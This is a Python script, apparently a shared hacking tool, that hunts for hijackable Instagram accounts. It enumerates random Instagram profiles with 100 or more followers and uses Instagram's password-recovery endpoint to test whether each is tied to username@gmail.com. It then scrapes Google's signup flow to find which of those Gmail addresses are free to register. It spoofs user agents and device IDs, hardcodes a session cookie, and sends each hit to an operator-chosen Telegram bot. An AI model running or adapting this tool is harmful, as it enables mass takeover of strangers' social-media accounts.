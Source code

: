 import os
import sys
import re
import json
import string
import random
import hashlib
import uuid
import time
from datetime import datetime
from threading import Thread, Timer
import requests
from requests import post as pp
from user_agent import generate_user_agent
from random import choice, randrange
from cfonts import render, say
from colorama import Fore, Style, init
import webbrowser


INSTAGRAM_RECOVERY_URL = 'https://i.instagram.com/api/v1/accounts/send_recovery_flow_email/'
IG_SIG_KEY_VERSION = 'ig_sig_key_version'
SIGNED_BODY = 'signed_body'
COOKIE_VALUE = 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj'
CONTENT_TYPE_HEADER = 'Content-Type'
COOKIE_HEADER = 'Cookie'
USER_AGENT_HEADER = 'User-Agent'
DEFAULT_USER_AGENT = ('Mozilla/5.0 (Windows NT 10.0; Win64; x64) '
                      'AppleWebKit/537.36 (KHTML, like Gecko) '
                      'Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0')

GOOGLE_ACCOUNTS_URL = 'https://accounts.google.com'
GOOGLE_ACCOUNTS_DOMAIN = 'accounts.google.com'
REFERRER_HEADER = 'referer'
ORIGIN_HEADER = 'origin'
AUTHORITY_HEADER = 'authority'
CONTENT_TYPE_FORM = 'application/x-www-form-urlencoded; charset=UTF-8'
CONTENT_TYPE_FORM_ALT = 'application/x-www-form-urlencoded;charset=UTF-8'

TOKEN_FILE = 'tl.txt'
eizon_domain = '@gmail.com' 


E = '\033[1;31m'
W9 = "\033[1m\033[34m"
M = '\x1b[1;37m'
HH = '\033[1;34m'
R = '\033[1;31;40m'
F = '\033[1;32;40m'
C = "\033[1;97;40m"
B = '\033[1;36;40m'
C1 = '\x1b[38;5;120m'
P1 = '\x1b[38;5;150m'
P2 = '\x1b[38;5;190m'
E = '\033[1;31m'
Y = '\033[1;33m'
Z = '\033[1;31m' 
X = '\033[1;33m' 
Z1 = '\033[2;31m' 
F = '\033[2;32m' 
A = '\033[2;34m'
C = '\033[2;35c'
S = '\033[2;36m'
E = '\033[1;31m'
Y = '\033[1;33m'
Z = '\033[1;31m' 
X = '\033[1;33m' 
Z1 = '\033[2;31m' 
F = '\033[2;32f' 
A = '\033[2;34m'
C = '\033[2;35c' 
S = '\033[2;36m'
G = '\033[1;34m' 
HH = '\033[1;34m' 
O = '\x1b[38;5;208m'
Y = '\033[1;34m'
C = '\033[2;35c'
M = '\x1b[1;37m'


total_hits = 0
hits = 0
bad_insta = 0
bad_email = 0
good_ig = 0
infoinsta = {}

eizon_header = render('meta', colors=['white', 'red'], align='center')
print("\x1b[1;36m—" * 67)
print(eizon_header)
print("\x1b[1;36m—" * 67)


ID = input("id gir: ")
print("━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━")
TOKEN = input("token gir")
    
os.system('clear')
print("\x1b[1;36m—" * 67)
print(eizon_header)
print("\x1b[1;36m—" * 67)


def pppp():
    ge = hits               
    bt = bad_insta + bad_email 
    be = good_ig          
    print(f"\r          {B}<|  {C1}True : {M}{ge}  {E} Bad {HH}: {M}{bt}  {W9}False {HH} : {M}{be}    {R}|> \r", end='')

def update_stats():
    pppp()


def Eizon():
    try:
        alphabet = 'azertyuiopmlkjhgfdsqwxcvbn'
        n1 = ''.join(choice(alphabet) for _ in range(randrange(6, 9)))
        n2 = ''.join(choice(alphabet) for _ in range(randrange(3, 9)))
        host = ''.join(choice(alphabet) for _ in range(randrange(15, 30)))
        headers = {
            'accept': '*/*',
            'accept-language': 'ar-IQ,ar;q=0.9,en-IQ;q=0.8,en;q=0.7,en-US;q=0.6',
            CONTENT_TYPE_HEADER: CONTENT_TYPE_FORM_ALT,
            'google-accounts-xsrf': '1',
            USER_AGENT_HEADER: str(generate_user_agent())
        }
        recovery_url = (f"{GOOGLE_ACCOUNTS_URL}/signin/v2/usernamerecovery"
                        "?flowName=GlifWebSignIn&flowEntry=ServiceLogin&hl=en-GB")
        res1 = requests.get(recovery_url, headers=headers)
        tok = re.search(
            'data-initial-setup-data="%.@.null,null,null,null,null,null,null,null,null,&quot;(.*?)&quot;,null,null,null,&quot;(.*?)&',
            res1.text
        ).group(2)
        cookies = {'__Host-GAPS': host}
        headers2 = {
            AUTHORITY_HEADER: GOOGLE_ACCOUNTS_DOMAIN,
            'accept': '*/*',
            'accept-language': 'en-US,en;q=0.9',
            CONTENT_TYPE_HEADER: CONTENT_TYPE_FORM_ALT,
            'google-accounts-xsrf': '1',
            ORIGIN_HEADER: GOOGLE_ACCOUNTS_URL,
            REFERRER_HEADER: ('https://accounts.google.com/signup/v2/createaccount'
                              '?service=mail&continue=https%3A%2F%2Fmail.google.com%2Fmail%2Fu%2F0%2F&theme=mn'),
            USER_AGENT_HEADER: generate_user_agent()
        }
        data = {
            'f.req': f'["{tok}","{n1}","{n2}","{n1}","{n2}",0,0,null,null,"web-glif-signup",0,null,1,[],1]',
            'deviceinfo': ('[null,null,null,null,null,"NL",null,null,null,"GlifWebSignIn",null,[],null,null,null,null,2,'
                           'null,0,1,"",null,null,2,2]')
        }
        response = requests.post(f"{GOOGLE_ACCOUNTS_URL}/_/signup/validatepersonaldetails",
                                 cookies=cookies, headers=headers2, data=data)
        token_line = str(response.text).split('",null,"')[1].split('"')[0]
        host = response.cookies.get_dict()['__Host-GAPS']
        with open(TOKEN_FILE, 'w') as f:
            f.write(f"{token_line}//{host}\n")
    except Exception as e:
        print(e)
        Eizon()

Eizon()

def check_gmail(email):
    global bad_email, hits
    try:
        if '@' in email:
            email = email.split('@')[0]
        with open(TOKEN_FILE, 'r') as f:
            token_data = f.read().splitlines()[0]
        tl, host = token_data.split('//')
        cookies = {'__Host-GAPS': host}
        headers = {
            AUTHORITY_HEADER: GOOGLE_ACCOUNTS_DOMAIN,
            'accept': '*/*',
            'accept-language': 'en-US,en;q=0.9',
            CONTENT_TYPE_HEADER: CONTENT_TYPE_FORM_ALT,
            'google-accounts-xsrf': '1',
            ORIGIN_HEADER: GOOGLE_ACCOUNTS_URL,
            REFERRER_HEADER: f"https://accounts.google.com/signup/v2/createusername?service=mail&continue=https%3A%2F%2Fmail.google.com%2Fmail%2Fu%2F0%2F&TL={tl}",
            USER_AGENT_HEADER: generate_user_agent()
        }
        params = {'TL': tl}
        data = (f"continue=https%3A%2F%2Fmail.google.com%2Fmail%2Fu%2F0%2F&ddm=0&flowEntry=SignUp&service=mail&theme=mn"
                f"&f.req=%5B%22TL%3A{tl}%22%2C%22{email}%22%2C0%2C0%2C1%2Cnull%2C0%2C5167%5D"
                "&azt=AFoagUUtRlvV928oS9O7F6eeI4dCO2r1ig%3A1712322460888&cookiesDisabled=false"
                "&deviceinfo=%5Bnull%2Cnull%2Cnull%2Cnull%2Cnull%2C%22NL%22%2Cnull%2Cnull%2Cnull%2C%22GlifWebSignIn%22"
                "%2Cnull%2C%5B%5D%2Cnull%2Cnull%2Cnull%2Cnull%2C2%2Cnull%2C0%2C1%2C%22%22%2Cnull%2Cnull%2C2%2C2%5D"
                "&gmscoreversion=undefined&flowName=GlifWebSignIn&")
        response = pp(f"{GOOGLE_ACCOUNTS_URL}/_/signup/usernameavailability",
                      params=params, cookies=cookies, headers=headers, data=data)
        if '"gf.uar",1' in response.text:
            hits += 1
            update_stats()
            full_email = email + eizon_domain
            username, domain = full_email.split('@')
            InfoAcc(username, domain)
        else:
            bad_email += 1
            update_stats()
    except Exception:
        pass

def check(email):
    global good_ig, bad_insta
    ua = generate_user_agent()
    dev = 'android-'
    device_id = dev + hashlib.md5(str(uuid.uuid4()).encode()).hexdigest()[:16]
    uui = str(uuid.uuid4())
    headers = {
        USER_AGENT_HEADER: ua,
        COOKIE_HEADER: COOKIE_VALUE,
        CONTENT_TYPE_HEADER: CONTENT_TYPE_FORM
    }
    data = {
        SIGNED_BODY: ('0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.' +
                      json.dumps({
                          '_csrftoken': '9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
                          'adid': uui,
                          'guid': uui,
                          'device_id': device_id,
                          'query': email
                      })),
        IG_SIG_KEY_VERSION: '4'
    }
    response = requests.post(INSTAGRAM_RECOVERY_URL, headers=headers, data=data).text
    if email in response:
        if eizon_domain in email:
            check_gmail(email)
        good_ig += 1
        update_stats()
    else:
        bad_insta += 1
        update_stats()

def rest(user):
    try:
        headers = {
            'X-Pigeon-Session-Id': '50cc6861-7036-43b4-802e-fb4282799c60',
            'X-Pigeon-Rawclienttime': '1700251574.982',
            'X-IG-Connection-Speed': '-1kbps',
            'X-IG-Bandwidth-Speed-KBPS': '-1.000',
            'X-IG-Bandwidth-TotalBytes-B': '0',
            'X-IG-Bandwidth-TotalTime-MS': '0',
            'X-Bloks-Version-Id': ('c80c5fb30dfae9e273e4009f03b18280'
                                   'bb343b0862d663f31a3c63f13a9f31c0'),
            'X-IG-Connection-Type': 'WIFI',
            'X-IG-Capabilities': '3brTvw==',
            'X-IG-App-ID': '567067343352427',
            USER_AGENT_HEADER: ('Instagram 100.0.0.17.129 Android (29/10; 420dpi; '
                                '1080x2129; samsung; SM-M205F; m20lte; exynos7904; '
                                'en_GB; 161478664)'),
            'Accept-Language': 'en-GB, en-US',
            COOKIE_HEADER: COOKIE_VALUE,
            CONTENT_TYPE_HEADER: CONTENT_TYPE_FORM,
            'Accept-Encoding': 'gzip, deflate',
            'Host': 'i.instagram.com',
            'X-FB-HTTP-Engine': 'Liger',
            'Connection': 'keep-alive',
            'Content-Length': '356'
        }
        data = {
            SIGNED_BODY: ('0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.'
                          '{"_csrftoken":"9y3N5kLqzialQA7z96AMiyAKLMBWpqVj",'
                          '"adid":"0dfaf820-2748-4634-9365-c3d8c8011256",'
                          '"guid":"1f784431-2663-4db9-b624-86bd9ce1d084",'
                          '"device_id":"android-b93ddb37e983481c",'
                          '"query":"' + user + '"}'),
            IG_SIG_KEY_VERSION: '4'
        }
        response = requests.post(INSTAGRAM_RECOVERY_URL, headers=headers, data=data).json()
        eizonporno = response.get('email', 'Reset None')
    except:
        eizonporno = 'Reset None'
    return eizonporno

def date(hy):
    try:
        ranges = [
            (1279000, 2010),
            (17750000, 2011),
            (279760000, 2012),
            (900990000, 2013),
            (1629010000, 2014),
            (2500000000, 2015),
            (3713668786, 2016),
            (5699785217, 2017),
            (8597939245, 2018),
            (21254029834, 2019),
        ]
        for upper, year in ranges:
            if hy <= upper:
                return year
        return 2023
    except Exception:
        pass

def InfoAcc(username, domain):
    global total_hits
    account_info = infoinsta.get(username, {})
    user_id = account_info.get('pk')
    full_name = account_info.get('full_name')
    followers = account_info.get('follower_count', 0)
    following = account_info.get('following_count')
    posts = account_info.get('media_count')
    bio = account_info.get('biography')
    meta_status = "meta aktif ✅" if followers > 50 else "aktif degil ✖️"
    total_hits += 1
    info_text = f"""
𝐇𝐈𝐓 𝐀𝐂𝐂𝐎𝐔𝐍𝐓 𝐈𝐍𝐒𝐓𝐀𝐆𝐑𝐀𝐌 
═══════════════════
🇹🇷𝐇𝐈𝐓 : {total_hits}
🇹🇷𝐈𝐒𝐈𝐌 : {username}
🇹🇷𝐄𝐌𝐀𝐈𝐋 : {username}@{domain}
🇹🇷𝐓𝐀𝐊𝐈𝐏𝐂𝐈 : {followers} 
🇹🇷𝐓𝐀𝐊𝐈𝐏 : {following} 
🇹🇷𝐏𝐎𝐒𝐓 : {posts} 
🇹🇷𝐓𝐀𝐑𝐈𝐇 : 2014 -2015
🇹🇷𝐁𝐈𝐎 : {bio} 
🇹🇷𝐌𝐄𝐓𝐀 : {meta_status}
🇹🇷𝐑𝐄𝐒𝐓 : {rest(username)}
══════════════════
Developer • @BestEizon ~ @EizonTool
"""
    with open('eizonhits.txt', 'a') as f:
        f.write(info_text + "\n")
    try:
        requests.get(f"https://api.telegram.org/bot{TOKEN}/sendMessage?chat_id={ID}&text={info_text}")
    except Exception:
        pass

def eizon_python():
    while True:
        data = {
            'lsd': ''.join(random.choices(string.ascii_letters + string.digits, k=32)),
            'variables': json.dumps({
                'id': int(random.randrange(10000, 21254029834)),
                'render_surface': 'PROFILE'
            }),
            'doc_id': '25618261841150840'
        }
        headers = {'X-FB-LSD': data['lsd']}
        try:
            response = requests.post('https://www.instagram.com/api/graphql', headers=headers, data=data)
            account = response.json().get('data', {}).get('user', {})
            username = account.get('username')
            if username:
                followers = account.get('follower_count', 0)
                if followers < 100: # minimum takipçi kafaniza gore degistirebilirsiniz.
                    continue
                infoinsta[username] = account
                emails = [username + eizon_domain]
                for email in emails:
                    check(email)
        except Exception:
            pass


def stats_loop():
    while True:
        update_stats()
        time.sleep(1)

Thread(target=stats_loop, daemon=True).start()

for _ in range(100):
    Thread(target=eizon_python).start()
    
    
    
    
    

